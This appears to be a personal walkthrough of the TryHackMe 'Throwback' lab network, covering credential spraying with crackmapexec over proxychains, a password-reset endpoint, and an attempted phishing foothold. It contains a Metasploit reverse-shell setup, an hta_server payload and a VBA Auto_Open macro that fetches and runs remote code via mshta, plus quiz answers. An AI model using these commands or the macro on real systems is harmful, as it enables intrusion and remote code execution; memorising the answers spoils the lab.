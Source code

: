 # You're Five Minutes Late...
Continuing on from the last task I add a FoxyProxy proxy to the AttackBox then my box as I read that I have do crackmapexec again. One more connective nightmare ahead I got lunch and started rolling my head over the keyboard till the everthing was re-re-re-re-re-re-setup again. I feel like I have learnt alot from this, but it really cost my motivation. I am now certain that using both the openvpn proxy and the AttackBox causes this connectivity issue as the proxy uses the same address for tun0. Check out my [Archive](https://github.com/7RU7H/Archive) project that has new section on Metasploit.


```bash
proxychains crackmapexec smb 10.200.102.0/24 -u SQLService -d THROWBACK.local -p mysql337570


SMB         10.200.102.117  445    THROWBACK-DC01   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-DC01) (domain:THROWBACK.local) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445 SMB         10.200.102.176  445    THROWBACK-TIME   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-TIME) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445  ...  OK
SMB         10.200.102.117  445    THROWBACK-DC01   [+] THROWBACK.local\SQLService:mysql337570 
[proxychains] Strict chain  ...  127.0.0.1:1080 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  10.200.102.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
SMB         10.200.102.176  445    THROWBACK-TIME   [+] THROWBACK.local\SQLService:mysql337570
...
...
SMB         10.200.102.219  445    THROWBACK-PROD   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-PROD) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
SMB         10.200.102.222  445    THROWBACK-WS01   [*] Windows 10.0 Build 19041 x64 (name:THROWBACK-WS01) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
<--socket error or timeout!
SMB         10.200.102.219  445    THROWBACK-PROD   [+] THROWBACK.local\SQLService:mysql337570 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
<--socket error or timeout!
SMB         10.200.102.222  445    THROWBACK-WS01   [+] THROWBACK.local\SQLService:mysql337570 

```

I also ran another nmap scan and a smbmap through the the proxychains:
```bash
proxychains smbmap -u SQLservice -p mysql337570 -d THROWBACK.local -H 10.200.102.0/24
```


MurphyF has the email reset, make sure you have edited your /etc/hosts and use the foxyproxy to view the Throwback Hacks Timekeep
![MurphyF](Screenshots/5minuteMurphyFemail.png)

```txt
URL:

http://timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD
```


## Answers

What is the hostname of the device?  
```{toggle}
Throwback-TIME
```
What is the title of the web page?  
```{toggle}
Throwback Hacks Timekeep
```
What user was the password reset for?
```{toggle}
MurphyF
```



# Word to your Mother

```bash
proxychains curl "timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD"

use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
exploit -j

use post/multi/manage/autoroute
set session
set subnet 10.200.102.0
exploit

use auxiliary/server/socks_proxy
exploit -j

use exploit/windows/misc/hta_server
set payload windows/x64/meterpreter/reverse_tcp
set SRVHOST tun0
set lhost tun0
set lport 3333
set uripath pleasework.hta
exploit -j
```

Visual Basic Macro

```vb
Sub Hello()
	PID = Shell("mshta.exe http://IP:8080/pleasework.hta")
End Sub
	
Sub Auto_Open()
	Hello
End Sub
```

Turned on Firefox proxy, went to `http://timekeep.throwback.local/` entered murphyf:PASSWORD, uploaded the Timesheet.xlsm. **BUT**

```msconsole
[*] 10.200.102.176   hta_server - Delivering Payload
BUT NO shell...
```

I decided to let it run in the background as maybe it would spawn. I have one day of access left finish Throwback. Deciding that although the support at THM discord is great probably do not have the time to wait. Presuming that most networks don't have nice file upload to RCE and given I have the SQLservice password through proxychain crackmapexec. I read [0xkaram's](https://0xkaram.github.io/posts/Try-Hack-Me-Throwback-Write-Up/#6-throwback-prod--10200154219) I got to the `ipconfig /displaydns`, decide not to break to look up panic and scroll futher.  Here are the asnwers for this section. 
## Answers

What web server accepts XLSMs as a file upload?
```{toggle}
THROWBACK-Time
```
What page is the file upload in?  
```{toggle}
Timesheet.php
```
What is the name of the XLSMs that you can upload?
```{toggle}
Timesheet.xlsm
```

# To be continued...

Due to the fact that my RCE did not land and time, I decided to rush off-piste and try do this from now on off the rails. 



